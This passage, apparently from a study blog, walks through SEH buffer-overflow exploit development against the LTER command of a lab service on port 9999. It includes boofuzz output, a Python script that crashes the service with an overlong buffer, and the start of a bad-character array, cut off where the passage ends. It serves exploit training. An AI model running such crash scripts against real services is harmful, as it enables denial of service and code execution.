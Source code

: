 Examining the CLI output from `boofuzz`,

![](/assets/images/CTP/LTERboo.JPG)

We find that in our third payload we sent 5012 bytes and they were all `B` values prepended by `LTER /.../`. So let's hardcode this into our `exploit.py` and see if we can get the program to crash without the fuzzer. This is our exploit script at this point:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = "A" * 5012

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

And we get it to crash, awesome

![](/assets/images/CTP/LTERreplicate.JPG)

Let's look at the SEH chain!

![](/assets/images/CTP/SEHLTER.JPG)

Awesome, we've managed to overwrite both of the SEH components, we can probably control the execution now. But, before we get carried away, we have two outstanding tasks:
1. Determine bad chars,
2. Calculate the offset to the SEH components (remember, they are separated by 4 bytes). 

## Determining Bad Characters

Let's cram the badchars variable into our `A` buffer since, judging by the stack output we get from Immunity, that space is huge. Our exploit code at this point will look like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
```